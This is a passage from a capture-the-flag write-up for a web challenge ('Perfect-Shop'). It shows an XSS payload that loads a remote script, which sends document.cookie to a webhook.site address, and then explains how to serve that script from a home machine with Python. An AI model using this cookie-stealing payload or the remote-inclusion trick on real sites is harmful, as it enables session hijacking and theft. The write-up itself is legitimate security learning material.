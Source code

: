 After trying and retrying, convincing myself more and more that I wasn't using the right approach, and scrutinizing the challenge files over and over again, including the templates that I considered completely safe, my eyes fell on the commented Bootstrap CDN.

What is done with the CDN is to include JavaScript code present on an external server on the page that calls it. To do this, all you need is a reference to this server and a `script` tag. Eureka.

#### XSS RFI
I think I can call it a Remote File Inclusion?

In the end, the solution was to write your payload to any file. The payload can be as long as you want, the important thing is that the tag that includes the JavaScript code in it is less than 50 characters.

At this point, I created a file named `x.js` that would change the page's address to that of my server, like this:

```js
window.location = "https://webhook.site/[REDACTED]?c=" + document.cookie;
```

At this point, all it took was to send the bot a payload that made it search for `<script src='//[IP]:[PORT]/'></script>`, so that it included the file from my server, executed it, and sent me the flag by changing the page's address from that of the challenge to that of my webhook, including the cookie parameters related to the challenge site as query parameters.

#### How to expose your server to the world

To expose your files to the rest of the internet, you don't need to physically own a server. Your PC can serve this purpose without much trouble. All you need is Python to do what I did during the competition, so I believe any operating system that supports Python also allows you to expose a server as I'm about to show:

Firstly, you need to get your local IP, which on Linux you can obtain by running the command `ifconfig`:

<img class="img-responsive" src="/openecsc2024/Perfect-Shop/img/ifconfig.png" alt="Example of finding local IP with ifconfig">

You will likely see an IP starting with `192.`; here, I tested it on my university's MAN.

Then, to expose the file containing the payload to the local network, you can use the Python command `python3 -m http.server [PORT]`. This command sets up a simple HTTP server that exposes all files in the folder and its subfolders where the command was executed. This means that at the URL `http://[IP]:[PORT]/x.js`, if everything is set up correctly, you should find the payload.

<img class="img-responsive" src="/openecsc2024/Perfect-Shop/img/SimpleHTTPserver.png" alt="Example of a simple HTTP server">

Opening it, you should be able to see the payload, which is not being executed. Do not be afraid; when this is included in the script tag, it will be executed as necessary.

As all good kids know, it's the router that communicates with the fantastic world of the internet, not our device directly, which only receives and sends information via the router. To find out what your external IP address is, you can use an online service like [whatismyip.com](https://www.whatismyip.com/).

At this point, we have almost everything: we know the IP address where the file to be included in the script tag passed to the bot will be located (i.e., the IP we just found), and we know the port on our device where our files are exposed (after all, we chose it).
